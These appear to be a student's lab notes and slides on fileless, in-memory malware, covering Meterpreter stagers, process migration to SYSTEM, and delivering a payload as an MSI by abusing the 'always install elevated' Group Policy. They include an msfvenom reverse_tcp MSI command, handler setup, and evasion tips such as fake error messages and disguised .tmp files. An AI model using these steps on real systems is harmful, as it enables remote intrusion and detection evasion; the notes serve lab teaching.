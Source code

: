 


In memory 


We have a loader, whose instructions are loaded into the memory, the destructive payload remains in memory, and does not leave an actual file to detect. 

The loader could appear benign , but the code that it inserting into memory remains in memory. When the computer is shut off, the malicious code is erased from the memory. 

The loader gets stopped, removing it from memory. 


## Meterpreter


Meterpreter runs in memory, and it has a stager. It can migrate between different processes. 



Meterpreter stager, inserts Meterpreter in memory, you can have other processes running in memory. If you have system-level access, you can migrate into other spots in memory dedicated to a different process. 


The loader process is stopped, removing it from memory. The Loader/file is kept to load more malware , or deleted from the system. 


We will make an MSI!


## MSI


They look benign. The bad things happen when you run it. 

MSI can be run as a system process. 

Some organizations are very lazy, and set up a Group Policy Object. The malicious MSI could be installed as a system process. We will get a fake message about it not being installed, but this is by design to hide it. 


When you look at process monitor, msiexec ( is used to install msi files normally on windows) will be used to make a .tmp file. .tmp files are easy to pass by observers since it is a .tmp file. 



We should have system level privileges, and then we can migrate into another system process. 


When we go to procmon, wpiprvse (the malicious loader) starts a cmd.exe shell. this means that meterpreter is integrated into the memory slot for the cmd.exe program. 


## The Loader 


Make them into *Classes*

We have a main *Function* 

Basically, use msfvenom to make an un-staged payload . Output it as base64.


look up x86 architecture 

avoid entering -b'\x00\x0a\x0d ... This is used by Windows, and it could break things for us.

mcs is a C+ compiler for Linux



#### Practical Bit

1. peloader :
   
   it runs, it can load things from http and load it into memory
   replace the base64 string and we will make payload.exe
   get the exe unto Flare-VM
   Start a python http server 
   Launch procmon
   loader,exe ....
   kill the loader
   observe cmd.exe still running and carrying the malware in its slot in memory



-------------

### The Slides


Execution - In  
memory attacks

What is an in-memory attack  
Using PEs as malware is easy, but can be easily detected and analyzed. This is  
mostly because it leaves a file on the victim’s machine.  
One can avoid this issue by loading malware just into the machine’s memory  
(RAM). This is an in-memory or fileless attack.  
Pros = Harder to detect and analyze  
Cons = No file, so the payload is lost if the machine is turned off.


![[Pasted image 20240927084740.png]]


![[Pasted image 20240927084756.png]]


How An In Memory  
Payload Works  
Memory  
Malicious Payload  
Loader (or  
Stager) EXE on  
Hard Drive  
Loader Process is stopped, removing it from memory.  
File is kept to load more malware, or deleted from file  
system.

![[Pasted image 20240927085133.png]]



![[Pasted image 20240927085510.png]]

![[Pasted image 20240927085539.png]]

Meterpreter In Memory  
First, to allow our meterpreter to get system privileges, we will have to allow  
programs to be installed as elevated. This is a common setting that lets a user  
install programs onto their machine with system privileges. If we can make a  
meterpreter as an installer file (.msi), we can have it run with system privileges.




Meterpreter In Memory  
1. In your flare-vm, Click Start -> Run and type gpedit.msc. The Group Policy  
window opens.  
2. Click on Computer Configuration -> Administrative Templates ->  
Windows Components -> Windows Installer.  
Enable the following Group Policy settings and reboot:  
● Always install with elevated privileges (mandatory)  
● Enable user control over installs (mandatory)  
● Disable Windows Installer. Then set it to Never.  
● Enable user to patch elevated products (optional)  
● Enable user to use media source while elevated (optional)  
● Enable user to browse for source while elevated (optional for new  
installations, mandatory for fix pack upgrades)


Meterpreter In Memory  
On your kali machine, ,create a meterpreter payload with msfvenom  
Msfvenom -p windows/meterpreter/reverse_tcp lport= lhost= -f msi > file.msi  
Then set up msfconsole to use multi/handler same as in the previous section  
Note when you run your msi file (later), you will get a fake error message.


Meterpreter - Migrating Processes  
Open up your procmon and filter for the process name for msiexec.exe. This is  
the program that install msi files. Open your process tree and find where  
msiexec.exe is located. Notice its running an ApacheBench tmp file (metasploit).  
This is much more hidden than a regular PE so far.


![[Pasted image 20240927085823.png]]





![[Pasted image 20240927085841.png]]


Meterpreter - Migrating Processes  
Meterpreter can migrate into other processes with system privileges, and it’s  
best to find a process with system privileges. WmiPrvSE.exe is a good one (PID  
6788)  
Use migrate 6788 to migrate into process with PIDF 6788. You’ll need to  
change the number for your process. Make sure it’s running as **NT/authority**  
system  
Use getpid after the migration to show that you’ve migrated.



![[Pasted image 20240927085935.png]]


![[Pasted image 20240927085943.png]]


![[Pasted image 20240927085953.png]]


![[Pasted image 20240927090017.png]]

![[Pasted image 20240927090035.png]]


![[Pasted image 20240927090045.png]]


![[Pasted image 20240927090052.png]]


![[Pasted image 20240927090103.png]]

![[Pasted image 20240927090116.png]]

![[Pasted image 20240927090133.png]]
![[Pasted image 20240927090146.png]]


![[Pasted image 20240927090205.png]]